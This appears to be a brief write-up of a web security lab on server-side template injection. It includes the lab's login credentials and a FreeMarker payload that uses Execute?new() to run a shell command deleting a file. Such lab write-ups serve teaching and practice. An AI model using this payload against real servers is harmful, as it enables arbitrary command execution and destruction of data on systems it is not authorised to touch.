 # Lab: Server-side template injection using documentation

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:

```
content-manager:C0nt3ntM4n4g3r
```

## SSTI
* 登入之後查看一下 post 可以看到可以編輯他，看了一下可以發現可以用 `${}` 引入內容，稍微試了一下發現是 freemarker template
```
payload = ${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
```